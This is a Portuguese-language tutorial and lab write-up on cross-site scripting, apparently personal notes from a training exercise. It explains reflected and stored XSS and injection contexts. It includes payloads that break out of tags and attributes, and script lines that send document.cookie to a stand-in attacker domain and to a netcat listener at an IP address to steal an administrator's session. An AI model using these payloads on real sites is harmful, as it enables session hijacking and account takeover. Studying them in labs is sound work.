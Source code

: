 # _**Contexto de páginas web**_
As páginas da web são compostas por 3 componentes comuns:
* HTML - é a sintaxe usada para definir o conteúdo e a estrutura de uma página web.
* CSS - é a linguagem usada para projetar e estilizar o conteúdo da página web.
* Javascript - é a linguagem usada para fornecer interatividade e animação a uma página web.

A maior parte do código Javascript é encontrada dentro de: <script></script>  
Estas tags em uma página web  
O código JavaScript é adicionado diretamente entre essas tags ou é chamado em um arquivo usando o atributo src dentro da tag de script de abertura, por exemplo: <script src=’location-to-file’></script>  
Em geral, o JavaScript dentro das tags de script é sempre executado quando a página é carregada  

Um dos outros locais onde o JavaScript pode ser adicionado são os atributos dentro de outras tags HTML  
Por exemplo:  <a href=’/link’ onclick=’code-here’>  
Esta tag HTML abre um link, mas o atributo onclick executa o código JavaScript quando o texto especificado pela tag HTML é clicado  
A execução do JavaScript no atributo depende do atributo, por exemplo, onload só executará JavaScript quando o elemento for carregado  

Muitos sites exigem a participação do usuário  
Isso inclui tudo, desde adicionar posts a um formulário até adicionar um valor em uma transferência bancária  
Vimos que sites exigem Javascript para funcionar corretamente  
Um usuário mal-intencionado poderia facilmente injetar JavaScript em uma página e executar ações maliciosas  
Esse tipo de ataque é chamado de XSS; _Cross Site Scripting_  

**Reflected XSS**
XSS refletido ocorre quando JavaScript arbitrário é refletido de um servidor (e não é permanente)  
Isso ocorre em cenários como páginas de erro e links onde o payload é passado como uma solicitação e também incluído na resposta  
O caso mais comum é quando um invasor envia uma URL contendo um payload malicioso para a vítima  
A vítima clica nesse URL e o payload é executado (exploraremos exatamente o que podemos fazer com um payload Javascript)  

**Stored XSS**
XSS armazenado ocorre quando JavaScript arbitrário é armazenado em um banco de dados e esse JavaScript é recuperado e exibido ao usuário  
Isso tende a ser mais perigoso do que XSS refletido, pois o payload é automaticamente passado (e até executado) ao usuário  

O JavaScript é muito poderoso e um invasor pode fazer muitas coisas com ele:
* **Roubar cookies de sessão:** Isso permitiria que um invasor acessasse a conta de um usuário
* **Escrever Keyloggers:** Isso permitiria que um invasor extraísse informações confidenciais de um usuário, como detalhes de cartão de crédito
* **Spam em geral:** Um invasor pode ser apenas um incômodo e arruinar a experiência do usuário com um site, manipulando vários elementos da página e muito mais

Executar esse payload sozinho não seria benéfico para um invasor  
Ele conseguiu acessar o cookie, mas como poderia recuperá-lo?  
Um método comum é redirecionar um usuário para um domínio que inclua o cookie como parâmetro  
Isso é feito usando: <script>window.location = ‘attacker-web-site.com/page?param=’ + document.cookie </script>  

Aqui, _window.location_ redireciona o usuário para o site controlado pelo invasor e passa o cookie como parâmetro  
O invasor pode então acessar o log do servidor, recuperar esse cookie e efetuar login como o usuário  
Esta não é a única maneira de recuperar o cookie:
* Faça uma solicitação HTTP XML para um domínio controlado por um invasor: Isso é mais furtivo, pois você não precisa redirecionar o usuário para uma página diferente.
* Torne o cookie visível para um invasor: Se você conseguir obter XSS em algum tipo de fórum/mensagem, poderá recriar a solicitação usada para adicionar dados a essas páginas

Assim que um invasor visitar essas páginas, ele poderá simplesmente visualizar o cookie  

***

**Requisições**
Como mencionado acima, extrair um cookie usando uma solicitação é bastante comum  
Essas solicitações podem ser GET ou POST e geralmente são feitas usando AJAX (Javascript Assíncrono)  
Isso funciona bem porque o AJAX pode interagir com um servidor em segundo plano (não há necessidade de atualizar ou recarregar uma página)  

Ao injetar esse payload em uma página, não conseguiremos separá-los como mostrado acima  
Então, colocaríamos tudo em uma linha, por isso o ponto e vírgula no final de cada linha é importante  
Ponto e vírgula é usado para indicar que uma solicitação foi concluída  

Antes de fazer uma chamada AJAX, é importante saber o formato da solicitação  
Você pode ver exatamente o que está envolvido em uma solicitação usando o Burp  
Como alternativa, você pode abrir a ferramenta de desenvolvimento e manter a aba de rede aberta para executar a solicitação  

***

**Encontrando XSS**
Seu payload pode ser adicionado a diferentes aspectos de uma página  
Um aspecto comum é entre as tags HTML  
Por exemplo, imagine que um nome de usuário seja adicionado dentro das tags de parágrafo, como: <p> username </p>  

Enquanto digitar <script></script> pode funcionar  
Queremos fechar as tags de parágrafo. Poderíamos usar o payload: </p><script>alert(document.cookie);</script><p>hi  
Quando isso for adicionado à página, o HTML ficará assim: <p></p><script>alert(document.cookie);</script><p>hi</p>  

Insira links e a página os renderizará desta forma: <a href=’link’></a>  
Para garantir que nosso JavaScript seja executado corretamente, precisamos adicionar um atributo, mas adicionar um payload imediatamente significaria que ele estaria entre aspas simples, então não seria executado:  <a href=’link + payload’></a>  

Então, o payload correto ficaria assim: link‘ onclick=’alert(1);  
Que é então inserido da seguinte forma: <a href=’link‘ onclick=’alert(1);’></a>  

# _**Execução**_
Fazendo login no site com o endereço IP, observe que não existe filtro para os comentários  
Com a ferramenta netcat escutando na porta 80 (HTTP) e baseando-se no script abaixo, monte-se um similar para buscar o cookie de administrador  

<script>window.location = ‘attacker-web-site.com/page?param=’ + document.cookie </script>  
<script>window.location = ‘http://[ip_address]:3000/?=’ + document.cookie </script>  

![](xss_script_return.jpg)
